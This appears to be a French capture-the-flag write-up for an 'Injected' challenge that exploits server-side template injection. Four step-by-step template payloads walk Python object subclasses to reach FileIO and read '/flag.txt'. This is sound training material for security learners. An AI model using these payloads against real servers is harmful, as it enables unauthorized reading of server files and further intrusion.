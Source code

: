 # Injected

Auteur : [HappoSnake](https://github.com/pathibault/)

Briève description : 

Il a été découvert lors d'un test d'intrusion que le logiciel ci-dessous expose nos serveur a une vulnérabilité d'injection de template du côté serveur. (SSTI)

Pourriez-vous valider si c'est toujours le cas ?

(Le fichier 'flag.txt' se trouve à la racine, AKA '/flag.txt')

# Sources
- https://finctf.ettic.net/challenges#Injected-41

# Solution
## 1. Pour commencer affichons les sous-classes de la classe 'string'
```
{{''.__class__.__base__.__subclasses__()}}
```
résultat

<img src=./string.png>

<br/>

## 2. La classe '_io._IOBase', nous intéresse. Alors voir ses sous-classes

```
{{''.__class__.__base__.__subclasses__()[111].__subclasses__()}}
```

résultat

<img src=./IOBase.png>

<br/>

## 3. Continions avec la classe '_io._RawIOBase'
```
{{''.__class__.__base__.__subclasses__()[111].__subclasses__()[0].__subclasses__()}}
```

résultat

<img src=./RawIOBase.png>

<br/>

## 4. Finalement avec la classe 'io.FileIO' nous pouvons lire le fichier 'flag.txt'
```
{{''.__class__.__base__.__subclasses__()[111].__subclasses__()[0].__subclasses__()[0]('/flag.txt').read()}}
```